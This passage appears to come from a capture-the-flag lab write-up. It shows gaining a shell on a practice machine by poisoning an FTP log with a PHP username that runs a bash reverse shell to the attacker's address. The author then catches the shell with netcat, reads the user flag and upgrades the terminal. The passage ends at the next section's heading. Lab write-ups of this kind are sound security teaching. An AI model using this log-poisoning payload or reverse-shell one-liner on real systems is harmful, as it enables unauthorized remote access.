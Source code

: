 ### Shell

To get a shell, I logged into FTP again:



    oxdf@parrot$ ftp 10.10.10.249
    Connected to 10.10.10.249.
    220 (vsFTPd 3.0.3)
    Name (10.10.10.249:oxdf): <?php system('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'); ?>
    331 Please specify the password.
    Password:
    530 Login incorrect.
    Login failed.
    ftp> 



With `nc` listening, I refreshed the log page:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.249] 49566
    bash: cannot set terminal process group (645): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@pikaboo:/var/www.md/admin_staging$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



I can grab `user.txt` from the only home directory on the host:



    www-data@pikaboo:/home/pwnmeow$ cat user.txt
    23b4217f************************



And upgraded the shell:



    www-data@pikaboo:/var/www.md/admin_staging$ python3 -c 'import pty;pty.spawn("bash")'
    <_staging$ python3 -c 'import pty;pty.spawn("bash")'
    www-data@pikaboo:/var/www.md/admin_staging$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@pikaboo:/var/www.md/admin_staging$ 



## Shell as root

### Enumeration
